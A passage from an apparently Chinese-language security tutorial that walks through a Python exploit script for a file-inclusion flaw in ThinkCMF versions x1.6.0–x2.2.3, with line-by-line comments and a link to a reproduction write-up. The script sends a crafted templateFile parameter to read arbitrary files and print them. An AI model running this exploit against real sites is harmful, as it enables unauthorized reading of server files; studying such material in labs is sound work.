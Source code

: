 ```python
    except KeyboardInterrupt:
        return False


if __name__ == '__main__':
    main()

```

## 2.1. 解析第一个EXP()

这里我们解析的一个`EXP`，关于`POC`应该没什么好说的，在之前都已经说过了，同时想要看懂代码，我觉得最简单的就是去看一下复现的流程！

这个EXP主要是用于实现文件包含内容。

以下代码均是靶机，可能与现实中存在不符，同时没有进行过多的测试，主要是介绍思路，并非编写`EXP`。

复现参考：[thinkcmf 文件包含 x1.6.0-x2.2.3 已亲自复现_thinkcmf 文件包含 x1.6.0-x2.2.3 vulfocus-CSDN博客](https://blog.csdn.net/qq_42430287/article/details/135253652)

执行代码：

```python
def exp(url, port, document):
    ##漏洞url访问链接，document就是用于接收用户输入进来想要进行文件包含的内容。
    payload = f"/?a=display&templateFile={document}"
    ##拼接URL
    url1 = f"{url}:{port}{payload}"
    ##请求头
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    ##异常捕捉
    try:
        ##发送get请求
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        ##正则匹配看下面的模块介绍
        pattern = r"^(.*?)<div id=\"think_page_trace\" style=\"position: fixed;bottom:0;"
        match = re.search(pattern, r.text, re.DOTALL)
        ##判断响应是否为200，根据burp显示的响应来判断，同时正则匹配到的数据是否存在
        if r.status_code == 200 and match:
            ##返回第一个括号内匹配到的内容，也就是<div id="think_page_trace"之前的所有内容，strip()方法用于去除字符串两端的空白字符（包括换行符和空格）。
            print(match.group(1).strip())
        else:
            print("没有找到匹配的内容")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)
```
